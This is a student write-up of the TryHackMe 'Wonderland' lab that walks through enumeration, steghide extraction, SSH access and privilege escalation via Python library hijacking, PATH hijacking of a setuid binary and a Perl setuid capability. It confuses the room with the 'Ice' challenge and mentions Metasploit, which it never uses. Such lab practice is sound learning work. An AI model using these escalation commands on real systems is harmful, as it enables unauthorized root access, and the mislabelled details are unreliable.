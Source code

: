 ```yaml
---
Title: SWS101 report7
categories: [SWS101, report7]
tags: [SWS101]
---
```


# TryHackMe - Wonderland
Fall down the rabbit hole and enter wonderland.

This walkthrough will guide you through the "Ice" challenge on Try Hack Me. The challenge involves enumeration, exploiting outdated software, using Metasploit, and performing privilege escalation on a Linux system.

### Task 1: Initiate the VPN Connection and Deploy the Machine
Connect to the Try Hack Me VPN using your configuration file:

    sudo openvpn <your_config_file>.ovpn
Deploy the target machine and wait for it to start.

### Task 2: Enumeration

    nmap -sC -sV -oA nmap/all-tcp 10.10.144.93
Analyze the scan results:

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
    Visit the web server on port 80 and take note of any clues or interesting pages.

![alt text](../assets/Screenshot_2024-05-28_01-55-24.png)

Perform a directory scan using ffuf to find hidden directories:

    ffuf -u http://10.10.144.93/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt

Results:

    img                     [Status: 301, Size: 0, Words: 1, Lines: 1]
    poem                    [Status: 301, Size: 0, Words: 1, Lines: 1]
    r                       [Status: 301, Size: 0, Words: 1, Lines: 1]

Download the image from the /img directory and analyze it for hidden data:

    wget http://10.10.144.93/img/white_rabbit_1.jpg
    steghide extract -sf white_rabbit_1.jpg
Enter passphrase: (leave blank or as instructed)
Content of hint.txt:

    follow the r a b b i t

![alt text](../assets/Screenshot_2024-05-28_01-58-07.png)

### Task 3: Getting Access
Follow the hint by checking the /r directory on the web server. View the source to find credentials.

Use the found credentials to SSH into the box:

    ssh alice@10.10.144.93
Notice the presence of root.txt in Alice’s directory:

    ls -la
Retrieve the user flag:

    cat /root/user.txt

### Task 4: Privilege Escalation
Check your sudo privileges:

    sudo -l

    User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

Analyze the walrus_and_the_carpenter.py script and exploit it by creating a malicious random.py:

    echo "import os; os.system('/bin/bash')" > random.py
    sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

Verify that you have escalated to the rabbit user:

    whoami
Check for any setuid binaries in the rabbit home directory:

    ls -l
Exploit the teaParty binary by manipulating the PATH:

    export PATH=/tmp:$PATH
    echo -e "#!/bin/bash\n/bin/bash" > /tmp/date
    chmod +x /tmp/date
    ./teaParty

Verify the escalation to the hatter user:

    whoami

Find the password for the hatter user and SSH into the machine:

    ssh hatter@10.10.144.93
Exploit the capabilities of Perl to escalate to root:

    getcap -r / 2>/dev/null
    perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
Verify root access and retrieve the root flag:

    whoami
    cat /home/alice/root.txt

This concludes the walkthrough for the "Ice" challenge on Try Hack Me. By following these steps, you have successfully performed enumeration, exploited software vulnerabilities, and achieved privilege escalation on the target system. Happy hacking;>






